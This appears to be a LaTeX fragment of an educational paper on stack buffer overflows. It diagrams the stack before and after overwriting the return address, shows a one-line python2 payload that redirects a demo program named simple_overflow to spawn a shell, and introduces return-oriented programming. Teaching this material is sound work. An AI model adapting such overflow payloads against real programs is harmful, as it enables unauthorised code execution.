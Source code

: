 \documentclass[10pt,twocolumn]{article}
\begin{document}
To overwrite the return address with the one of \textit{exec\_shell()} we need
to fill the buffer with $100$ bytes, overwrite SFP\footnote{the saved frame
pointer (old content of \%ebp) is called SFP} with a dummy value and then the
target address.

\begin{lstlisting}[aboveskip=\bigskipamount,belowskip=\medskipamount,caption=Stack before and after overflow]
| <argument>                 |
| <return address>           |
| <old %ebp>                 | <= %ebp
| <0x6c bytes of             |
|       ...                  |
|       buffer>              |
| <argument>                 |
| <address of buffer>        | <= %esp
           BEFORE

| 0x80484fb <exec_shell()>   |
| 0x42424242 <fake old %ebp> | "BBBB" in hex
| 0x41414141 ...             | "AAAA" in hex
|   ... (0x6c bytes of 'A's) |
|   ... 0x41414141           |
           AFTER
\end{lstlisting}

In practice, once the return address is overwritten, the attacker can perform
his exploit via a \textit{code injection} assuming no defenses are in place,
\textit{return-to-libraries} attack, or \textit{return oriented programming}
attack.

\begin{lstlisting}[float=ht,belowskip=\medskipamount]
$ ./simple_overflow "$(python2 -c 'print "A"*0x6c + "BBBB" + "\xfb\x84\x04\x08"')"
Spawning a shell !
sh-4.4$
\end{lstlisting}

\subsection{Return Oriented Programming}
In this section we will introduce the concepts behind \textit{return-oriented programming
}\cite{roemer_return-oriented_2012}.

Return-oriented programming is a technique by which an attacker can induce
arbitrary behavior in a program whose control-flow he has diverted, without
injecting any code. It was built to overcome buffer exploit defense
mechanisms like ASLR, DEP or W$\oplus$X. The technique consists of aggregating
malicious computation by linking together short code snippets called
\textit{gadgets}.  A \textit{gadget} ends in a \texttt{ret} instruction and is
located in a subroutine within the program's address space. Chained together,
these gadgets allows an attacker who controls the call stack to build and
execute his payload. Because the executed code is stored in memory marked
executable, the W$\oplus$X defense will not prevent it from running.
\end{document}
